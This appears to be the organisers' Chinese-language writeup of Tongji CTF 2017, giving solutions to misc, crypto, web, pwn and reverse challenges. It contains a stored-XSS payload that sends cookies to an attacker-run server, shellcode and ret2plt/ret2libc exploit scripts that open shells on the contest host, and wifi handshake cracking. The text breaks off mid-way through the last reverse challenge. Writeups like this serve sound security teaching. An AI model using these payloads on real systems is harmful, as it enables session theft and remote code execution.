

[TOC]

# Tongji CTF 2017 主办方writeup

## 0x00 前言

比赛期间有一些同学来问为什么`Web`题这么少，后面还有没有`Web`的，向这些同学表示歉意。本次比赛偏向于二进制，这是因为我们的出题人搞二进制的(bu)多(hui)一(wai)些(bu)。这里我们祝愿下一届比赛的出题人们把题目出的全面一些。

校内赛的难度把握也是一个值得讨论的问题。既要对新人友好，又要略带挑战；既要帮助入门，又要帮助大家走的稍远一些。不过，这也仅仅是一场比赛而已，大家以后在社团里多交流就会一起进步的。

注：

- 许多题目解法不止一种，本`writeup`仅给出一种参考
- 另，建议知其然知其所以然
- 欢迎大家指出错误

## 0x01 Misc

### Misc 100 这也是一道签到题

```
题目：作为 misc 的签到题，想想还有点小骄傲呢。

LS4uIC0tLS0tIC0uLS0gLS0tIC4uLSAtLi0gLS4gLS0tLS0gLi0tIC0uLiAtLS0gLSAuLi4uLSAtLiAtLi4gLS4uIC4tIC4uLi4uIC4uLi4=
```

`Misc`是新人入门CTF最好的方式。`Base64`编码则更是`Misc`中用户体验不错的类型。

```
LS4uIC0tLS0tIC0uLS0gLS0tIC4uLSAtLi0gLS4gLS0tLS0gLi0tIC0uLiAtLS0gLSAuLi4uLSAtLiAtLi4gLS4uIC4tIC4uLi4uIC4uLi4=
```

找一个在线`Base64`解码：

```
-.. ----- -.-- --- ..- -.- -. ----- .-- -.. --- - ....- -. -.. -.. .- ..... ....
```

结果基本可以确定是`摩尔斯电码`，解码得：

```
D0YOUKN0WDOT4NDDA5H
```

(do you know dot and dash)

### Misc 200 py交易

```
题目：
def show_me_flag():
    print("\n")
    print("    There are always some people and ideals")
    print("      for whom and which we strive, endure and persist")
    print("      when isolated. ")
    print("    That is why we struggle to our feet")
    print("      and refuse to give up.")
    print("    So, good luck :)")
    print("\n")

def show_me_flag2():
    print("    To be or not to be, ")
    print("      that is a question.")
    print("\n")

def show_me_flag3():
    print("    Youth is not a time of life.")
    print("      It is a state of mind.")
    print("      It is not a matter of rosy cheeks, ")
    print("        red lips and supple knees.")
    print("      It is a matter of the will, ")
    print("        a quality of the imagination, a vigor of the emotions")
    print("      It is the freshness of the deep springs of life.")
    print("\n")

def main():
    show_me_flag()
    show_me_flag2()
    show_me_flag3()

if __name__ == "__main__":
    main()
```

考查`zip伪加密`及`python字节码隐写`。

拿到zip文件发现有密码，题面没有给出密码或者爆破密码的意思，判断可能是伪加密。找到图中位置将`09`改为`00`，就可以成功提取出`.pyc`：


之后用python3.6运行发现输出与题目给出的一模一样，考虑可能不是源码的问题。结合python3.6的字节码很整齐这个特点，怀疑是pyc隐写。参考`http://www.freebuf.com/sectool/129357.html`可从字节码中提取出flag：


由于3.6版本的python字节码很整齐，也可以考虑自己手动去编译源码、对比。

(踏破铁鞋无觅处)

### Misc 200 大新闻

```
题目：“近日，安全研究员 MathyVanhoef 发现 WPA2 协议层中存在逻辑缺陷，几乎所有支持Wi-Fi的设备（包括但不限于Android, Linux, Apple,Windows, OpenBSD, MediaTek, Linksys）都面临威胁，其传输的数据存在被嗅探、篡改的风险。攻击者可获取WiFi网络中的数据信息，如信用卡、邮件、账号、照片等，危害巨大。”

oblivi0n看着眼前的加密wifi，默默打开了Wireshark...

Flag格式：tj{wifi密码}
```

考查基础的wifi密码字典破解。

题目描述看起来很高端，其实是障眼法：）

直接把数据包导进`aircrack-ng`，找个字典暴力破解就可以。

这个题的目的是提醒大家，wifi密码尽量设置复杂一些。否则不仅会被人蹭网，黑客也可以趁机搞事情，比如看看和他共用一个wifi的电脑有没有漏洞之类的。

```bash
aircrack-ng wifi.cap -w dic.txt
```

flag：tj{11223344}

### Misc 200 有毒吧

```
题目：我怎么总感觉背后有人在盯着我的电脑，总感觉有人知道我在输入什么。。。
```

考查基础的传输协议分析。

针对USB键盘的抓包。USB协议的数据部分在`Leftover Capture Data`域，把它导出成一个文件：

```bash
tshark -r xxxxxxx.pcap -T fields -e usb.capdata > keyboards.txt
```

记录与按键之间的对应关系参考`http://www.usb.org/developers/hidpage/Hut1_12v2.pdf`。

注意`02`开头的记录代表同时按住`Shift+对应按键`，比如`02000F...`代表`shift+l`，输出的是大写的`L`。

写个脚本跑一下：

```python
KEY_CODES = {
    0x04:['a', 'A'],
    0x05:['b', 'B'],
    0x06:['c', 'C'],
    0x07:['d', 'D'],
    0x08:['e', 'E'],
    0x09:['f', 'F'],
    0x0A:['g', 'G'],
    0x0B:['h', 'H'],
    0x0C:['i', 'I'],
    0x0D:['j', 'J'],
    0x0E:['k', 'K'],
    0x0F:['l', 'L'],
    0x10:['m', 'M'],
    0x11:['n', 'N'],
    0x12:['o', 'O'],
    0x13:['p', 'P'],
    0x14:['q', 'Q'],
    0x15:['r', 'R'],
    0x16:['s', 'S'],
    0x17:['t', 'T'],
    0x18:['u', 'U'],
    0x19:['v', 'V'],
    0x1A:['w', 'W'],
    0x1B:['x', 'X'],
    0x1C:['y', 'Y'],
    0x1D:['z', 'Z'],
    0x1E:['1', '!'],
    0x1F:['2', '@'],
    0x20:['3', '#'],
    0x21:['4', '$'],
    0x22:['5', '%'],
    0x23:['6', '^'],
    0x24:['7', '&'],
    0x25:['8', '*'],
    0x26:['9', '('],
    0x27:['0', ')'],
    0x28:['\n'],
    0x2C:[' '],
    0x2D:['-', '_'],
    0x2E:['=', '+'],
    0x2F:['[', '{'],
    0x30:[']', '}'],
    0x33:[';', ':'],
    0x38:['/', '?'],
    0x37:['.', '>'],
    0x2b:'[TAB]'
}
datas = open('keyboard.txt').read().split('\n')[:-1]
output = ''
for data in datas:
	shift = int(data.split(':')[0], 16) / 2
	key = int(data.split(':')[2], 16)
	if key == 0:
	continue
	output += KEY_CODES[key][shift]
print output
```


(Logitech USB Listener)

### Misc 200 月黑风高夜

```
题目：听说这是嘉定的晚上。。
```

考查图像隐写术。

用StegSolve打开图片，在该通道下可以看到清晰的二维码，扫描后得解：


（招财进宝，我爱莹草）

## 0x02 Crypto

### Crypto 100 RSA

```
题目：杨老师：将大整数分解为质因数是攻克RSA加密的核心。今天的作业很简单，求这个98位数的最大质因数：

21949311347305581797160582529498169526027487167294416984481778350712846563483858308761365244743101
```

打开`www.factordb.com`，直接输入需要分解的大整数就能看见结果。

flag: tj{5527278404454199535821801}

### Crypto 200 WANNACRY

```
题目：If you WANNACRY, cry on my shoulders....
```

考查密码学基础。

灵感来源于
`http://stackoverflow.com/questions/3154998/pycrypto-problem-using-aesctr`。

`AES-CTR`理论上是很安全的，但是如果按照这样的写法对`每16个字符`都使用`一样的key`，则可以进行`已知明文攻击`。

被加密文件是`wmv`，也就是说无论视频的内容如何，文件头都是`3026B2758E66CF11A6D900AA0062CE6C`。

只要将明文的文件头与密文的文件头进行一次`xor`运算，就能得到`AES-CTR的密钥`。

这里需要一定的脑洞。不过文件结尾大量出现重复的`ce90 5584 2a72 961e 6efb 6cba b947 7544`，其实已经把key暴露出来了。

解密即可，视频中的内容就是flag。

```python
from itertools import *

keystream = [0xCE,0x90,0x55,0x84,0x2A,0x72,0x96,0x1E,0x6E,0xFB,0x6C,0xBA,0xB9,0x47,0x75,0x44]

cipher = open('flag.wmv.enc','rb').read()
plain = open('solved.wmv','wb')

for i,j in zip( cipher , cycle(keystream) ):
	plain.write( chr(i ^ j) )
```


(Awesome Windows media)

### Crypto 300 感觉药丸

```
题目：一觉醒来沈老师的作业变成了这样，还怎么拿优？
```

考查替换密码。

如果直接用网页打开txt的话，会因为编码问题跳出一串不知所云的乱码，据说很多同学就是卡在了这里。

把文件保存下来，编码改成`ANSI/GBK`就能看到一篇很有特点的文章了。


替换密码，26个雨字头的汉字对应26个字母。

词频统计之后可以判断出`靄=e`，然后结合英语语法和密码学里讲过的字母出现频率可以将文章还原出来。

这里向大家说声抱歉，后台设置的flag打错了一个字符导致一开始很多同学没有成功提交flag，后来进行了修复。

flag: tj{substitudeisnotsafe}

## 0x03 Web

### Web 100 这是一道XinSaiSai的题目

```
题目：某无聊管理员在后台默默窥屏中。千万别输入什么见不得人的东西，他肯定会点开偷偷看哦~

http://10.10.175.209:11001/tj-web01/
```

考查基础的`XSS`知识。

题目其实有提示`XSS`的（`XinSaiSai`），另外题面描述管理员会点开看也是暗示可能存在`存储型XSS`。

首先在一台具有`能够被赛题服务器访问到的IP`的机器上开一个`SimpleHTTPServer`：

```
python -m SimpleHTTPServer 80
```

接着在赛题页面输入用户名如下，密码随意：

```javascript
<script>window.open("http://xxx.xxx.xxx.xxx/" + document.cookie)</script>
```


查看服务器日志：


如果没有上述服务器，也可以使用在线XSS平台，或者把自己的电脑暂时设置为宿舍路由器的DMZ主机。

(Scripting of Cross Site)

### Web 200 这是一道很难的题目

```
题目：你听说过 PHP 吗？

http://10.10.175.209:11002/
```

考查获取网站备份文件意识及`PHP 0e`安全隐患知识。

右键查看注释之后发现存在一个`tj761306263`的用户名，输入后跳转到`login.php`，提示无法登陆。


一番猜测之后发现`login.php`存在一个备份文件可以访问：`http://10.10.175.209:11002/.login.php.swo`


在源码中发现一个`==`可以利用。

PHP在处理字符串时，如果使用`!=`或`==`来进行比较，则它把每一个以`0E`开头的值都解释为`0`。如果两个不同的密码经过哈希以后，其哈希值都是以`0E+纯数字`的结构，那么PHP将会认为他们相同，都是`0`。

对`tj761306263`进行哈希之后，发现它的MD5值正好符合这一条件：


输入另一个哈希后为`0E`开头的字符串，比如`240610708`或者`QNKCDZO`，都可以拿到flag。

如果能找到泄漏的备份文件的话，这题会容易很多很多。在现实对Web系统的渗透测试中，这也是一个重要的检查点。

(Dark Magic Named 0E)

## 0x04 Pwn

### Pwn 100 这也叫缓冲区溢出？

```
题目：仿佛听到了莫里斯杠铃般的笑声。。。

nc 10.10.175.209 10001
```

考查最基本的栈溢出覆盖变量。

IDA打开程序，对`Kid()`函数F5：


发现需要将输入缓冲区上方的`int v5`覆盖为`xtpa`，根据图中的栈偏移计算需要输入的字符数量：

```
0x21c - 0x118 = 260
```

再结合小端序，最后


(welcome to the real world my kid)

### Pwn 200 这还是缓冲区溢出？

```
题目：嗯，听说你很厉害。。。

nc 10.10.175.209 10002
```

考查格式化字符串漏洞的最基本利用。

IDA打开程序，对`Kid()`函数F5：


发现图中`printf`存在格式化字符串漏洞。再看一下`readFile()`：


是用来把flag读入内存的。

接下来就是寻找当执行`call printf`时栈顶距flag所在字符数组的偏移。

使用gdb调试发现，程序会把flag首地址存储在一个指针变量中，该变量距`printf`栈顶为6个偏移（由于该指针变量在代码中其他地方并未使用，所以仅仅使用IDA做反编译静态分析是看不到的。当然也可以直接通过打印栈内容来获得flag，但是由于程序限制了最多输入6个字符，所以需要多次拼凑`%*$x`之类的格式化字符串才可以）：




所以最终可以获得flag：


关于格式化字符串漏洞可以参考：`http://bobao.360.cn/learning/detail/3654.html`。

(Behind every great fortune there is a crime)

### Pwn 300 C语言超级程序设计

```
题目：完，看来遇上大灰阔了。

nc 10.10.175.209 10003
```

考查最基本的传入shellcode获取shell。

IDA中直接对`Kid()`函数F5，发现失败：


换到反汇编界面看一下：


发现程序先要求输入一段字符，然后竟然有`call eax`，说明把输入的东西当做一段指令执行。

用gdb-peda看一下程序的漏洞缓解措施：


`N^X`保护没有打开，说明可以直接传入shellcode执行。且`CANARY`打开，说明不太容易通过覆盖返回地址来达到劫持控制流的目的。到`www.exploit-db.com/`随便找一个短一些的shellcode，用`zio`写一个脚本：

```python
#!/usr/bin/env python

from zio import *

IP = "10.10.175.209"
port = 10003

shellcode = "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
conn = zio((IP, port))
#conn = zio("./pwn300")
conn.writeline(shellcode)
conn.interact()
```

成功获得shell，发现当前目录下有flag，cat打开：


(never guess gin's thoughts)

### Pwn 400 C语言-还有这种操作-程序设计

```
题目：停车！这不是去幼儿园的车！

nc 10.10.175.209 10004
```

考查使用`ret2plt`绕过`N^X`限制。

IDA F5看一下程序：


`scanf`存在栈溢出。并且注意到程序的`.plt`表中竟然有`system`函数：


用gdb-peda看一下开了哪些保护措施：


发现`N^X`打开，但`PIE`没有打开。暂时不考虑传入shellcode到栈上。又由于目标环境的基址随机化是否打开以及`libc`库版本均不可知，考虑调用`.plt`中的`system`函数并为其传入一个`sh`字符串做参数获得shell。那么哪里有`sh`呢？在gdb-peda中`find sh`一下，发现`Small fish`最后就是`sh`（即`0x80485db`处）：


再看一下`system@plt`的地址：


最后用gdb调试计算一下需要多少填充字节才能够覆盖到函数返回地址。

最终可以有以下exploit脚本：

```python
#!/usr/bin/env python

from zio import *

IP = "10.10.175.209"
port = 10004

shellcode = 'A' * 272 + '\x80\x83\x04\x08' + 'AAAA' + '\xdb\x85\x04\x08\n'

conn = zio((IP, port))
#conn = zio("./pwn200")
conn.write(shellcode)
conn.interact()
```

成功获得shell并得到flag：


(hahahahahahahaha you must be genius)

### Pwn 500 ？？？？？

```
题目：:P

nc 10.10.175.209 10005
```

考查利用`ret2libc`绕过`N^X`及格式化字符串漏洞泄露`libc`库地址信息。

IDA F5打开：


发现同上题相似，还是一个`scanf`的栈溢出，不过这次没有了隐含的`sh`字符串以及`system@plt`，却多了一个`printf`的格式化字符串漏洞。

同样使用gdb-peda查看保护措施：


发现依然只开启了`N^X`，但是目标环境下可能开启了`ASLR`。这里考虑调用`libc`中的`system`函数获得shell，但是需要首先用格式化字符串漏洞获得目标环境下`system`加载的内存地址。由于程序运行一次只能输入一次，且有可能存在`ASLR`，所以我们要想办法让`Kid`函数运行两次：

第一次输入目的：泄露`libc`库地址，并控制返回地址返回到`call Kid`上；

然后借助第一次输入后程序返回的`libc`地址计算`system`的地址。可是`sh`字符串上哪里找呢？其实`libc`库中也有，我们在获得`libc`的版本及某一函数地址后，其他的地址均可以通过偏移计算出；

第二次输入目的：构造`system("sh")`，获得shell。

下面是具体的过程：

根据Linux下`ELF`文件的加载过程，`__libc_start_main`函数最终调用`main`函数。所以`main`函数结束后会返回到`__libc_start_main`，那么根据汇编中`call`指令特性，`__libc_start_main`中下一条指令地址会被压入栈。

我们在具有格式化字符串漏洞的`printf`处下断点，看栈上内容：


发现偏移量为`83`处存储了`__libc_start_main`中下一条指令地址。


可以先验证一下是否是这样：


可以发现两次均成功，但地址不同，这说明目标环境开启了`ASLR`。但是注意到该程序为`32位`，所以`ASLR`仅仅会把地址的中间`12bit`随机化，最后的`12bit`是保持不变的。据此我们可以判断出目标环境`libc库`版本。可以使用在线的`http://libcdb.com/`查询，也可以使用`KITCTF`开发的`libc-database`：`https://github.com/niklasb/libc-database`查询。本文使用后者查询：

根据尾号`637`查版本并获取对应版本库中的`system函数`和`/bin/sh`偏移：


发现有两个结果，测试后发现后一个符合目标环境特征。

需要注意的是，这个版本的`libc`中的`/bin/sh`首地址恰好带有`0x0b`，而`scanf`遇到`0x0b`会截断，所以这里要稍微变通一下，只取`/bin/sh`中的`sh`字符串即可。

至此，万事俱备。看一下`call Kid`指令地址，用来做二次调用：


最终的exploit为：

```python
#!/usr/bin/env python

from zio import *

IP = "10.10.175.209"
port = 10005

libcRetOff = 0x18637 
systemOff = 0x0003a940
shellOff = 0x159010
shellcode1 = 'A' * 267 + '\xdb\x85\x04\x08'

conn = zio((IP, port))
#conn = zio("./pwn400")

# obtain the address of __libc_start_main ret
conn.writeline('%83$p' + shellcode1)
libc_ret = conn.read(10)

libc_temp = int(libc_ret, 16) - libcRetOff
systemAddr = l32(libc_temp + systemOff)
shellAddr = l32(libc_temp + shellOff)

conn.read_until("sooo\n")

# obtain shell
shellcode2 = 'A' * 272 + systemAddr + 'AAAA' + shellAddr

conn.writeline(shellcode2)
conn.interact()
```

最后获得shell及flag：


(veni!! vidi!! vici!! boy you win:))

## 0x05 Reverse

### Reverse 100 这是一道签到题

```
题目：听说隔壁有好几个跟我名字一样的？我才是真的签到题。。（是最近流行这个还是咋滴？听说某心云也是各种重名）
```

题目给出了一个`apk`，考查基础的Android逆向。

`apk`本质上是一个`zip`压缩包：

```bash
[guest@cruise ~]$ file AndroidReverse.apk
AndroidReverse.apk: Zip archive data, at least v2.0 to extract
```

Android的开发语言可以是`C/C++`或者`Java`。
使用`C/C++`的话，一般通过`NDK`将其编译成类似`libxxx.so`的动态链接库，放在`lib`目录下。
使用`Java`的话，会被编译成类似`classes.dex`的`dex`文件。
观察解压后的文件夹发现没有`lib`目录，100分的题目比较简单，只需要反编译`classes.dex`即可。
通过`dex2jar`将`classes.dex`转换为`jar`包，使用`jd-gui`打开即可查看源码。（也可以用`apktools`解包`apk`，查看`smali`或者`smali2java`查看Java代码）

```java
//MainActivity.class
...

public class MainActivity
  extends AppCompatActivity
{
  boolean CheckFlag(byte[] paramArrayOfByte)
  {
    return (paramArrayOfByte.length == 19) && 
    (paramArrayOfByte[0] == 116) && 
    (paramArrayOfByte[1] == 106) && 
    (paramArrayOfByte[2] == 123) && 
    (paramArrayOfByte[3] == 113) && 
    (paramArrayOfByte[4] == 115) && 
    (paramArrayOfByte[5] == 121) && 
    (paramArrayOfByte[6] == 100) && 
    (paramArrayOfByte[7] == 116) && 
    (paramArrayOfByte[8] == 121) && 
    (paramArrayOfByte[9] == 121) && 
    (paramArrayOfByte[10] == 95) && 
    (paramArrayOfByte[11] == 109) && 
    (paramArrayOfByte[12] == 121) && 
    (paramArrayOfByte[13] == 104) && 
    (paramArrayOfByte[14] == 99) && 
    (paramArrayOfByte[15] == 115) && 
    (paramArrayOfByte[16] == 108) && 
    (paramArrayOfByte[17] == 120) && 
    (paramArrayOfByte[18] == 125);
  }

  ...
}
```

查询ASCII码表之后即可得到**tj{qsydtyy_myhcslx}**（青山一道同云雨，明月和曾是两乡，本来想作为LSB的flag的，后来因为某些原因。。。）

### Reverse 200 .NETTEN.

```
题目：When will my reflection show Who I am inside...
```

看题目的名字是.NET逆向，如果没有看出来也没有关系，可以通过PE查壳工具查看。


或者在程序运行时，查看它加载的dll也能发现这是.NET程序。


.NET的逆向分析工具比较多样，以ILSpy为例，先反编译查看源码：


可以看到程序有一个名字为`ReflectionShell.ReflectionCore.exe`的嵌入式资源，程序运行后先加载这个资源，并将资源的每一个`byte`和`99`异或。最后使用反射的方法，运行该嵌入式资源（命令行参数原样传入）。


选中该资源，点击save按钮，将资源剥离出来。

写一个小程序脱壳：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    FILE *fp;
    int   file_len;
    char *data;
    int   i;
    
    fp = fopen("ReflectionShell.ReflectionCore.exe", "rb");
    fseek(fp, 0, SEEK_END);
    file_len = ftell(fp);
    fseek(fp, 0, SEEK_SET);
    data = (char*)malloc(sizeof(char) * file_len);
    fread(data, file_len, 1, fp);
    fclose(fp);
    for (i = 0; i < file_len; i++)
        data[i] ^= 99;
    fp = fopen("ReflectionShell.ReflectionCore-1.exe", "wb");
    fwrite(data, file_len, 1, fp);
    fclose(fp);
    
    return 0;
}
```

反编译`ReflectionShell.ReflectionCore-1.exe`：


可以看到flag的判断逻辑：

```cpp
flag.Length == 33 &&
!(flag.Substring(0, 3) != "tj{") &&
!(Program.Md5(flag.Substring(3, 3)) != "7D115AE79B229A96B6656375F493C2DF") &&
!(Program.Base64(flag.Substring(6, 16)) != "X1Vqb3VfUjNAY2xjbHk/Lg==") &&
!(Program.Sha1(flag.Substring(22, 3)) != "029BC2B0067000E122D2286DCF774961625FAC14") &&
!(flag.Substring(25, 8) != "_iS_Ez!}")
```

`Md5`明文为**4re**(http://www.cmd5.com/)可以查到；  
`base64`解码为**_Ujou_R3@clcly?.**；  
`sha1`为**NET**；  
拼凑后得出flag为**tj{4re_Ujou_R3@clcly?.NET_iS_Ez!}**（Are_you_readdy?.NET_is_easy）。

### Reverse 300 Hijack

```
题目：Remind大一的时候写了一个二维码生成程序，写的时候只有他和老天知道他在写什么；现在过了两年，只有老天知道他当时写的是什么了。
```

给出了一个`exe`和`dll`，`exe`里几乎每个函数都被加了花指令，而且通过二维码算法在命令行中生成了二维码，静态分析很困难，题目给出了不要过多在意`exe`的暗示，题目名字是`Hijack`，暗示是`dll hijack`，即`dll劫持`。

主要看`dll`，可以看到两个导出函数：


这两个函数什么都没做，空函数。直接运行程序出来一个二维码：


扫描结果是“the calling order of the DLL export function”，提示是dll导出函数的调用顺序。

那么很简单，只要替换掉这个dll，保持导出函数名和参数不变，自己在里面加入简单的输出逻辑，记录调用顺序即可，这个需要用VS写一个dll。

这里就简单地用`printf`了：


替换运行可以得到这样一串输出：

011101000110101001111011001101110011000001110101010111110011000101101001010000000110111000111001010111110110100001010101011000010100111001011111011110100111110000101101011111000111010101111101

做一个简单的转换：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    char str[] = "011101000110101001111011001101110011000001110101010111110011000101101001010000000110111000111001010111110110100001010101011000010100111001011111011110100111110000101101011111000111010101111101";
    int i, j;
    for (i = 0; str[i] != '\0'; i+=8) {
        char ch = 0;
        for (j = 0; j < 8; j++) {
            ch *= 2;
            ch += (str[i + j] - '0');
        }

        printf("%c", ch);
    }
    return 0;
}

```

二进制8位转1位ASCII得到**tj{70u_1i@n9_hUaN_z|-|u}**（偷梁换柱）。

### Reverse 400 Quanter

```
题目：Remind想要进行程序化交易，但由于证监会视其为洪水猛兽，下令对其进行了封杀，因此各券商逐步关闭了交易接口。贼心不死的Remind在网上找到了通达信的dll及其导出函数的使用说明。可惜的是，这个dll是收费的，每个dll绑定一个交易账户，初步分析后发现，dll作者首先会将用户的交易账户通过某种算法加密后内置在dll中，当使用dll的导出函数进行登陆时，会对交易账户做校验，如果不符合则无法交易。Remind想要让大家都可以享受量化交易的乐趣，而不需要支付高额的费用，于是他想请你帮他研究一下这个加密算法。如果能从密文反推出明文（交易账户），那么离彻底破解也就不远了，你能帮帮他吗？（上文为背景，本次比赛试题已将dll、交易函数等无关内容剥离，只需关注如何破解加密算法即可）
```

扔到IDA里逆向看一下`main`函数，首先输入一个最长不超过`63`字节的字符串，然后对其做加密，最后将结果和密文比较一下：


看一下具体的加密算法，也就是`sub_401080`：

```cpp
char __fastcall sub_401080(char *a1, int a2)
{
  unsigned int v2; // ebx@1
  char *v3; // edx@1
  int v4; // esi@1
  char result; // al@2
  signed int v6; // edx@4
  unsigned int v7; // ebx@4
  signed int v8; // eax@4
  signed int v9; // ecx@6
  signed int v10; // ebx@6
  char *v11; // ecx@14
  bool v12; // cf@16
  unsigned int v13; // [sp+Ch] [bp-1Ch]@4
  int v14; // [sp+10h] [bp-18h]@1
  char *v15; // [sp+14h] [bp-14h]@1
  int v16; // [sp+18h] [bp-10h]@1
  signed __int16 v17; // [sp+1Ch] [bp-Ch]@1
  signed int v18; // [sp+20h] [bp-8h]@4
  signed int v19; // [sp+24h] [bp-4h]@4

  v14 = a2;
  v2 = 0;
  v3 = a1;
  v15 = a1;
  v16 = 0;
  v17 = 1374;
  v4 = 0;
  do
    result = *v3++;
  while ( result );
  if ( v3 != a1 + 1 )
  {
    do
    {
      v6 = 1;
      v7 = ((unsigned int)(unsigned __int16)v17 >> 8) ^ a1[v2];
      v19 = 1;
      v13 = v7;
      v17 = 8319 * (v7 + v17) - 21053;
      v8 = 65;
      v18 = 65;
      do
      {
        if ( !v6 )
          break;
        v9 = 90;
        v10 = v7 + 1665;
        do
        {
          if ( !v6 )
            break;
          v8 = v18;
          if ( v10 % 26 || v10 / 26 != v18 )
          {
            v6 = v19;
          }
          else
          {
            *(_BYTE *)(v4 + v14) = v18;
            *(_BYTE *)(v4 + v14 + 1) = v9;
            v4 += 2;
            v6 = 0;
            v19 = 0;
          }
          --v9;
          ++v10;
        }
        while ( v9 >= 65 );
        v7 = v13;
        v18 = ++v8;
      }
      while ( v8 < 91 );
      v11 = v15;
      v2 = v16++ + 1;
      do
        result = *v11++;
      while ( result );
      v12 = v2 < v11 - (v15 + 1);
      a1 = v15;
    }
    while ( v12 );
  }
  return result;
}

```

反推有点困难，但是基本可以知道，1个char会加密成两个可见的类似16进制的char，于是可以穷举遍历。

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define _BYTE char

char __fastcall sub_401080(char *a1, char *a2)
{
  ...
}

int main()
{
    const char str_std[] = "EJAFDTHQDVCWJDDSJNDHCJEZCGJSJKGREIFAHVDKIICBHLJFJQEUFMFWCQIUFLHGCFGWJABIFMGEEM";
    char       str_gen[128];
    char       flag[64];
    int        i, j;

    memset(flag, 0, 64);
    for (j = 0; j < strlen(str_std) / 2; j++) {
        for (i = 0; i < 255; i++) {
            flag[j] = i;
            memset(str_gen, 0, 128);
            sub_401080(flag, str_gen);
            if (str_gen[j * 2] == str_std[j * 2] && str_gen[j * 2 + 1] == str_std[j * 2 + 1]) {
                printf("%s\n", flag);
                break;
            }
        }
    }
    //

    return 0;

```


**tj{N07_oN!y_A_coDeR_8ut_aLSo_4_qu@n73r}**（Not_only_a_coder_but_also_a_quanter）

### Reverse 500 I wrote Python

```
题目：题面还真的不好编呢，参见题目吧。
```

这道题给出了一个编译后的Python字节码文件`flag.pyc`，以及一套Python环境。  
如果尝试用自己的Python是没有办法运行这个pyc的。  
运行题目给出的Python，尝试用Python自带的反汇编模块`dis`，发现`opcode`模块不存在：

```bash
C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp>python
Python 3.6.2 (default, Oct  6 2017, 17:47:41) [MSC v.1900 32 bit (Intel)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> import dis
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp\lib\dis.py", line 8, in <module>
    from opcode import *
ModuleNotFoundError: No module named 'opcode'
>>>
```

从`python3.6.2`源码中拷贝一份`opcode.py`到`Lib`目录下后再反汇编。  
通过序列化反序列化模块`marshal`可以加载pyc，pyc的其他结构没有什么问题，但是opcode不正确，初步怀疑是置换了opcode。

```bash
C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp>python
Python 3.6.2 (default, Oct  6 2017, 17:47:41) [MSC v.1900 32 bit (Intel)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> import dis
>>> import marshal
>>>
>>> fd = open('flag.pyc', 'rb')
>>> header_bytes = fd.read(12)
>>> co = marshal.load(fd)
>>> dis.dis(co)
 22           0 LOAD_CONST               0 ('please input the flag:')
              2 CALL_FUNCTION            0
              4 LOAD_NAME                1 (flag)
              6 STORE_NAME               1 (flag)

 24           8 LOAD_CONST               2 ('Failure')
             10 LOAD_CONST               1 (28)
             12 LOAD_NAME                1 (flag)
             14 CALL_FUNCTION            1
             16 EXTENDED_ARG             3
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp\lib\dis.py", line 60, in dis
    disassemble(x, file=file)
  File "C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp\lib\dis.py", line 335, in disassemble
    co.co_consts, cell_names, linestarts, file=file)
  File "C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp\lib\dis.py", line 346, in _disassemble_bytes
    line_offset=line_offset):
  File "C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp\lib\dis.py", line 315, in _get_instructions_bytes
    argval = cmp_op[arg]
IndexError: tuple index out of range
>>>
```

接下来要得到正确的opcode置换表，如果逆向Python虚拟机那代价太大，可以自己编写一份用到了所有`python3.6.2`中opcode的Python代码，然后用原版的python和修改版的python分别编译一遍，两相对比即可得到opcode置换表。

这里写了一份`all.py`，参见`附录1`。

写个小程序对比opcode，原理很简单，逐字符比较就行了，这里就不放代码了。

```bash
C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\RemapOpcode\Debug>RemapOpcode.exe
已复制         1 个文件。
已复制         1 个文件。
Opmap building: general_opcode = 100, replace_opcode = 131
Opmap building: general_opcode = 1, replace_opcode = 62
Opmap building: general_opcode = 131, replace_opcode = 101
Opmap building: general_opcode = 101, replace_opcode = 100
Opmap building: general_opcode = 25, replace_opcode = 23
Opmap building: general_opcode = 19, replace_opcode = 63
Opmap building: general_opcode = 20, replace_opcode = 25
